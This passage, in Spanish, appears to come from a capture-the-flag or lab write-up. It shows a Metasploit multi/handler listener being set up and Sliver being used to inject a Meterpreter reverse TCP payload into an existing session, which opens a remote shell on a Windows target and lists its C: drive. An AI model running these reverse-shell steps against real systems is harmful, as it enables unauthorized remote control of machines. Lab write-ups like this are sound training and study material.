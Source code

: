 Abrimos la consola de metasploit
```console
$ msfconsole
```

Hacemos el típico proceso para ponernos en escucha...
```console
[msf](Jobs:0 Agents:0) >> use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
```

Nos ponemos en escucha por el puerto 9091
```console
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set LHOST tun0
LHOST => tun0
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set LPORT 9091
LPORT => 9091
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> run

[*] Started reverse TCP handler on 10.10.14.125:9091 
```

Sliver tiene una funcionalidad para ejecutar un payload de metasploit en el proceso actual donde tenemos la sesión en este caso.
```console
server] sliver (DEVELOPING_BELL) > msf --payload meterpreter_reverse_tcp -L 10.10.14.125 -l 9091

[!] Empty response from msf payload injection task
```

Y ya tenemos la sesión en metasploit.
```console
[*] Sending stage (175686 bytes) to 10.129.136.40
[*] Meterpreter session 1 opened (10.10.14.125:9091 -> 10.129.136.40:49868) at 2024-09-06 22:43:11 +0200

(Meterpreter 1)(C:\) > dir
Listing: C:\
============

Mode              Size    Type  Last modified              Name
----              ----    ----  -------------              ----
040777/rwxrwxrwx  4096    dir   2021-12-21 20:15:27 +0100  $Recycle.Bin
040777/rwxrwxrwx  0       dir   2022-01-12 18:17:45 +0100  $WinREAgent
100666/rw-rw-rw-  1       fil   2019-12-07 10:08:58 +0100  BOOTNXT
040777/rwxrwxrwx  0       dir   2021-11-18 23:55:36 +0100  Documents and Settings
000000/---------  0       fif   1970-01-01 01:00:00 +0100  DumpStack.log.tmp
040777/rwxrwxrwx  0       dir   2019-12-07 10:14:52 +0100  PerfLogs
040555/r-xr-xr-x  4096    dir   2021-12-06 12:06:33 +0100  Program Files
040555/r-xr-xr-x  4096    dir   2021-12-07 13:43:39 +0100  Program Files (x86)
040777/rwxrwxrwx  4096    dir   2024-09-06 20:32:22 +0200  ProgramData
040777/rwxrwxrwx  0       dir   2021-11-18 23:55:55 +0100  Recovery
040777/rwxrwxrwx  4096    dir   2021-12-21 19:31:14 +0100  System Volume Information
040555/r-xr-xr-x  4096    dir   2021-12-21 23:50:06 +0100  Users
040777/rwxrwxrwx  4096    dir   2024-09-06 20:33:19 +0200  Utils
040777/rwxrwxrwx  16384   dir   2021-12-16 02:23:03 +0100  Windows
100444/r--r--r--  413738  fil   2019-12-07 10:08:58 +0100  bootmgr
000000/---------  0       fif   1970-01-01 01:00:00 +0100  pagefile.sys
000000/---------  0       fif   1970-01-01 01:00:00 +0100  swapfile.sys
```
